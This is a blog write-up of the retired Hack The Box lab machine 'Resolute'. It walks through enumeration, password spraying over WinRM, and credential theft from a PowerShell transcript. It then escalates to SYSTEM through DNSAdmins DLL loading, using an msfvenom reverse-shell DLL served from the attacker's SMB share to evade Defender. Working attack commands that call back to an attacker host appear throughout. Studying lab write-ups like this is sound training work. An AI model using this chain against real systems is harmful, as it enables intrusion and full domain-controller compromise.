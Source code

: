 ```yaml
---
layout: default
---
```

## Resolute
###### Retired June 2020
![](https://www.hackthebox.eu/storage/avatars/4c86a642ea237dfde036963e6d182b40.png)

This Windows machine takes advantage of lazy adminstrators, poor PowerShell hygiene, and Windows Defender bypasses.

I started this machine with a quick nmap scan to find open ports
```bash
nmap -p 1-65535 -n -v resolute.htb -T5
```

![](https://yaboygmoney.github.io/htb/images/resolute/nmap1.png)

I followed up with a more in depth nmap scan on a few of the ports that responded. I had a hunch what I needed was one of the first responders.

```bash
nmap -p 53,139,445,636,5985,88 -n resolute.htb -T4 -A -oN nmap.results
```

![](https://yaboygmoney.github.io/htb/images/resolute/nmap2.png)

My next move was to run enum4linux against resolute.htb.

```bash
enum4linux -a resolute.htb
```

This provided the workgroup name, a list of users, and a password. For the account 'marko' we can see a description that says 'Account created. Password set to Welcome123!'. 

![](https://yaboygmoney.github.io/htb/images/resolute/enum.png)

We learned WinRM was enabled from our nmap scan, so I try to use [evil-winrm](https://github.com/Hackplayers/evil-winrm) to login with the credentials found.

```bash
evil-winrm -u marko -p 'Welcome123!' -i resolute.htb
```

..except, no ya don't.

![](https://yaboygmoney.github.io/htb/images/resolute/badpass.png)

Looks like the password won't work for ```marko```. It does appear to be a standard "Welcome to the organization!" password that is set by default. To check it against the user list named "u.txt" containing all of the names provided by enum4linux, I ran

```bash
for user in $(cat u.txt); do evil-winrm -u $user -p 'Welcome123!' -i resolute.htb; done
```

It fails a few times, and then I'm able to authentiate as the user 'melanie'.

![](https://yaboygmoney.github.io/htb/images/resolute/loop.png)

A quick get-content command against C:\users\melanie\desktop\user.txt gets the user flag.

![](https://yaboygmoney.github.io/htb/images/resolute/user.png)

After looking around, it doesn't appear as though the user melanie has too many permissions on this system to escalate. Other users with folders on the system are Administrator and Ryan. 

![](https://yaboygmoney.github.io/htb/images/resolute/users.png)

I decide to see what I can see about Ryan.

```powershell
net user ryan
```

![](https://yaboygmoney.github.io/htb/images/resolute/netryan.png)

Ryan is a member of another group: contractors. We don't have much else to go on, so let's see what we can find.

I start at C:\ and see what's what.

```powershell
Get-ChildItem -force
```
There are a few bonus folders in here, namely PSTranscripts. 

![](https://yaboygmoney.github.io/htb/images/resolute/digging.png)

Enumerating that shows an result.

![](https://yaboygmoney.github.io/htb/images/resolute/pstranscript.png)

The file is 3732 bytes of text, so I decide to pull it down to my Kali machine by using ```download Powershell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt``` in Evil-WinRM.

Looking through the file, credentials are easily spotted in a command ryan was using to mount a file share.

![](https://yaboygmoney.github.io/htb/images/resolute/ryancreds.png)

Exit the session as melanie and start a new one as ryan:

```bash
evil-winrm -u ryan -p 'Serv3r4Admin4cc123!' -i resolute.htb
```

![](https://yaboygmoney.github.io/htb/images/resolute/inAsRyan.png)

I immediately check out what sort of cool things Ryan can accomplish with ```whoami /all```.

![](https://yaboygmoney.github.io/htb/images/resolute/ryangroups.png)

Interestingly, Ryan is a member of the DNSAdmins group. Equally interesting, [this blog](https://medium.com/@esnesenon/feature-not-bug-dnsadmin-to-dc-compromise-in-one-line-a0f779b8dc83) covering exploiting DNSAdmin's abilities to load DLLs with the dnscmd.exe binary.

After learning this, I craft a quick DLL payload with msfvenom.

```bash
msfvenom -p windows/x64/shell_reverse_tcp -f dll LHOST=10.10.14.28 LPORT=1234 > ybgm.dll
```

I start Metasploits exploit/multi/handler to catch the callback, and upload my DLL to the target. Except..

![](https://yaboygmoney.github.io/htb/images/resolute/busted.png)

Windows Defender is busting this payload as soon as it hits the disk. Shay Ber's previously mentioned article does mention that the payload can be called from a UNC path from a remote server. This is important, because this instance of Windows Defender only seems to care if the file is touching the disk. Loading the DLL from a remote server is safe, so to abuse this feature, I need to do a few things:

1. Serve a share folder from Kali, hosting the DLL
2. Mount the share folder so that Ryan can use it
3. Run the dnscmd to config the loading of the bad DLL
4. Restart the DNS service so the DLL is loaded

To accomplish Step 1, I used [Impacket's smbserver.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbserver.py).

```bash
./smbserver.py YBGM /root/htb/resolute/
```

This command creates an SMB server and share named YBGM, hosting my /root/htb/resolute directory.

![](https://yaboygmoney.github.io/htb/images/resolute/smbsetup.png)

Next, I need to get Ryan using this share. By default, the share doesn't require any authentication, so it's as easy as 

```powershell
net use \\10.10.14.28\ybgm
net use
```

You can see from both the Windows machine and the Kali machine that the connection established.

![](https://yaboygmoney.github.io/htb/images/resolute/mounted.png)

![](https://yaboygmoney.github.io/htb/images/resolute/mounted2.png)

Now I need to run the dnscmd.exe binary to load this DLL and then restart DNS.

```powershell
dnscmd.exe Resolute /config /ServerLevelPlugindll \\10.10.14.28\ybgm\ybgm.dll
sc.exe stop dns
sc.exe start dns
```

![](https://yaboygmoney.github.io/htb/images/resolute/dnscmd.png)

Once DNS comes back up my dll is loaded and a connection is established with my listener.

![](https://yaboygmoney.github.io/htb/images/resolute/metasploit.png)

With the NT AUTHORITY/SYSTEM shell, I can get the contents of C:\users\administrator\desktop\root.txt 

![](https://yaboygmoney.github.io/htb/images/resolute/root.png)
